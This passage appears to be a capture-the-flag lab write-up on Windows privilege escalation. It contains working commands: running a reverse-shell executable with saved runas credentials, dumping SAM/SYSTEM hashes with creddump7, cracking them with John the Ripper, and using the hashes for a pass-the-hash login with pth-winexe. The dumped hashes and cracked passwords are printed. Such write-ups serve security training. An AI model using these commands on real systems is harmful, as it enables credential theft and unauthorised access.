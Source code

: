 - We can see the user **admin** so lets make use of **runas** utility. _It allows a user to run specific tools and programs with different permissions than the user's current logon provides._
- lets run `runas /savecred /user:admin C:\Temp\reverse.exe`, this will give us the admin privileges

---

#### Passwords: SAM(Security Accounts manager)

- SAM consists of NTLM hashes of windows passwords, we have chance to crack them but this might not always be helpful because we're dealing with hashes!
- But knowing the method will definitely helps.
- And 99% of the times SAM file cannot be accessed with normal privileges, but here in the box the author created a copy of SAM file in `C:\Windows\Repair` directory, so that we can play! Here in that directory there are 2 files namely, `SAM` and `SYSTEM`
- We need to get both the files so that we can use with a tool named **creddump7**([https://github.com/CiscoCXSecurity/creddump7](https://github.com/CiscoCXSecurity/creddump7)). I got them thru the help of meterpreter `download` command
- Now after cloning run the following command `python2 pwdump.py /opt/work/SYSTEM /opt/work/SAM` it'll now display the hashes of users that are available in windows machine. The output is,

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```

- Now save the above content in a text file and now crack it with the help of **JohnTheRipper**, the syntax is `john --format=NT hashes.txt --wordlist=/usr/share/wordlist/rockyou.txt`, and it cracked!

```
password123      (admin)     
password321      (user)     
Passw0rd!        (Administrator)  
```

---

#### Password: Pass the hash attack

- Lets assume that we are not able to crack the hash as its not in the wordlist, then we can use this attack **Pass the hash**, which allows us to authenticate with the help of hash!
- So get the hash, here lets login as **admin** whose hash is `a9fdfa038c4b75ebc76dc855dd74f0da`
- First export, `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da` here we're using hash with groupid as well
- Then run `pth-winexe -U admin% //10.10.213.97 cmd.exe`, I got shell as **admin**
- The tool `pth-winexe` is already available in kali.
- If stuck check this: [https://www.whitelist1.com/2017/10/pass-hash-pth-attack-with-pth-winexe.html](https://www.whitelist1.com/2017/10/pass-hash-pth-attack-with-pth-winexe.html)

---
